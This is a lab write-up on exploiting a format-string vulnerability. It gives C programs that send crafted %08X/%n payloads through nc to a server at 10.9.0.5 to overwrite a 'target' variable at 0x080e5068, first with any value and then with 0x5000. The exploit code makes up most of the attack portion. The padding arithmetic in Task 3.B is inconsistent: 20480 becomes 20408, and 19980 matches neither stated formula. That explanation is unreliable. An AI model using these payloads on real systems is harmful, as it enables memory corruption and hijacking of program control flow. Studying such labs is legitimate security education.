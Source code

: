 The goal of this assignment is to alter the value of a crucial variable named "target" within the server program (we will maintain the use of 10.9.0.5 as the server IP). Initially, the target variable is set to 0x11223344. It's important to note that this variable plays a significant role in determining the program's control flow. If external attackers can successfully modify its value, they have the potential to influence the program's behavior. There are three specific sub-tasks associated with achieving this objective.

### Task 3.A: Change the value to a different value

In this task we need to change the value of the target variable. Initially its value is 0x11223344 and the address is 0x080e5068.

The %n command in format strings writes the number of characters written up to that point into the memory area of ​​the argument passed as a parameter. The approach is very similar to the command in task 2.B, only instead of reading the selected address, we will write it. The code executed was as follows:

```
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[296] = "echo \x68\x50\x0e\x08%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X %n | nc 10.9.0.5 9090";
    
    system(cmd);
    return 0;
}
```

![Alt text](<Captura de ecrã 2023-11-16 104719.png>)

Fig 10. The output of service

### Task 3.B: Change the value to 0x5000

This time, the goal is to change the value of the "target" variable to a specific value: 0x5000, which is 20480 in decimal. Since we know that '%n' will write the number of characters printed so far, the input until '%n' must consist of 20408 characters. Given the length of the input, we utilize the notation %.NX, where N = 19980 (calculated as 20408 - 4 - 63*8), to write the remaining 19980 characters with the value 0.

```
#include <string.h>
#include <stdlib.h>

int main() {
    char cmd[] = "echo \x68\x50\x0e\x08%.19980X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%n | nc 10.9.0.5 9090";

    system(cmd);
    return 0;
}

```
